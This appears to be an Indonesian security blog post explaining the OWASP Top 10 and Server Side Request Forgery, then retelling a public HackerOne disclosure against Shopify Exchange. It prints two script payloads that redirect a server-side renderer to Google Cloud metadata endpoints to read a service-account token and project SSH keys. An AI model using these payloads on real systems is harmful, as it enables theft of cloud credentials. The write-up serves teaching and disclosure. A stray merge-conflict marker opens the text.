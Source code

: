 >>>>>>> fd99555 (Update rebelsec.id Site)

## Pengantar

Artikel kali ini kita akan membahas owasp top 10 yang ada di urutan terakhir untuk tahun 2021 (owasp tiap 4 tahun sekali), ialah **Server Side Request Forgery (SSRF)**.

OWASP merupakan singkatan dari _Open Web Application Security Project_, yang merupakan sebuah project _Security Web Application_ open source yang diperkasai oleh para penggiat teknologi atau pengembang aplikasi, OWASP sering mengadakan seminar, forum diskusi serta pendidikan untuk para Developer.

jadi yang dimaksud **OWASP TOP 10**? owasp top 10 merupakan sebuah cara untuk mengkategorikan resiko kerentanan yang sering terjadi pada sebuah aplikasi berbasis website, dari yang paling atas (resiko tertinggi) hingga yang paling bawah (tingkat resiko rendah), Tujuannya apa ?, tentu saja ini sangat berguna bagi para developer aplikasi supaya mereka jadi lebih aware terhadap kerentanan di aplikasi mereka.

## Server Side Request Forgery (SSRF)

### Apa itu Server Side Request Forgery (SSRF) ?

**Server Side Request Forgery (SSRF)** merupakan sebuah kerentanan yang disebabkan di layer (aplication dan network) yan dimana _request_ dari user diizinkan untuk melakukan interaksi dengan **internal network** yang menyebabkan **permintaan URL** dari user akan _dianggap_ sebagai permintaan dari _internal network_ oleh aplikasi/website (Tidak adan validasi).

## Praktikal

### #341876 SSRF in Exchange leads to ROOT access in all instances

Sumber : https://hackerone.com/reports/341876

#### Access Google Cloud Metadata

attacker membuat toko (patners.shopify.com)
edit template [password.liquid] dan menambahkan konten :

```
<script>
window.location="http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token";
  // iframes don't work here because Google Cloud sets the `X-Frame-Options: SAMEORIGIN` header.
    </script>
```

attacker pergi ke *https://exchange.shopify.com/create-a-listing* lalu menginstall **Exchange app** - > **Create Listing page**
Download gambar .PNG dan buka

attacker coba untuk mendapatkan lebih banyak sensitif data

```
<script>
window.location="http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json";
</script>
```

